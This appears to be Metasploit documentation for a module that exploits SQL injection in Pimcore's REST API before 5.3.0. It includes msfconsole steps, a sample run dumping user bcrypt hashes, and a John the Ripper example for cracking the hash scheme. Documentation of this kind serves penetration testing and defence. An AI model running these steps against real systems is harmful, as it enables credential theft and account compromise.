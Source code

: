 ## Description

  This module exploits a SQL injection vulnerability in Pimcore's REST web service for versions below 5.3.0. By using a UNION query on the `object inquire` service, this module can steal the usernames and password hashes of all users of Pimcore.

  Pimcore begins to create password hashes by concatenating a user's username, the name of the application, and the user's password in the format `USERNAME:pimcore:PASSWORD`.
  The resulting string is then used to generate an MD5 hash, and then that MD5 hash is used to create the final hash, which is generated using PHP's built-in `password_hash` function.

  The following is an example of cracking a retrieved hash using John the Ripper on OS X (`md5{,sum}` invocation may vary):

```
wvu@kharak:~$ md5 -qs 'admin:pimcore:TrustNo1!!' | john --stdin <(echo 'admin:$2y$10$k6odZgiw2RnC1gbuD2/vRO21SxVuAeUiYYWwRtmYuNHYvZCzEX2Fy')
Created directory: /Users/wvu/.john
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
c28e017eec634579fd9309d08171c115 (admin)
1g 0:00:00:00  14.28g/s 14.28p/s 14.28c/s 14.28C/s c28e017eec634579fd9309d08171c115
Use the "--show" option to display all of the cracked passwords reliably
Session completed
wvu@kharak:~$
```

## Vulnerable Application

  Installing composer and running `php composer.phar create-project pimcore/pimcore=5.2.3 ./myproject --no-dev` will install Pimcore and most of its dependencies.
  The installation process will give notifications on missing PHP extensions that are required. Additionally, a web server and database must be set up.

  Source for Pimcore v5.2.3 can also be found [here](https://www.exploit-db.com/apps/7c759b5b7f2896a7d5461582e149bcaa-pimcore-5.2.3.tar.gz)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/gather/pimcore_creds_sqli`
  4. Do: `set RHOSTS [IP]`
  5. Do: `set TARGETURI [URI]`
  6. Do: `set APIKEY [KEY]`
  7. Do: `run`
  8. You should get a list of Pimcore user credentials

## Options

### APIKEY

  Valid API key for accessing Pimcore's REST API in order to perform the injection.

## Scenarios

### Tested on Ubuntu 18.04.1 Running Pimcore v5.2.3

```
msf > use auxiliary/gather/pimcore_creds_sqli
msf auxiliary(gather/pimcore_creds_sqli) > set rhosts 192.168.37.246
rhosts => 192.168.37.246
msf auxiliary(gather/pimcore_creds_sqli) > set apikey 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
apikey => 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
msf auxiliary(gather/pimcore_creds_sqli) > run

[+] Credentials obtained:
[+] admin : $2y$10$sBaD3EOAm/i1F3Mm/fwseeq3nyoacdlUt4NkVLZUgJ4FTReJSKIbe
[+] secondUser : $2y$10$DYaFjrYnajTmVhhXSmsh8O5rLrQuPt8Q9Dto3vaQ4747K5kSvWEPy
[+] blah : $2y$10$sJWr.puqXnF5T3DI3L1oqu3aIJRjUtHs9.2pgHEkevEdGrGvO1cBC
[*] Auxiliary module execution completed
```
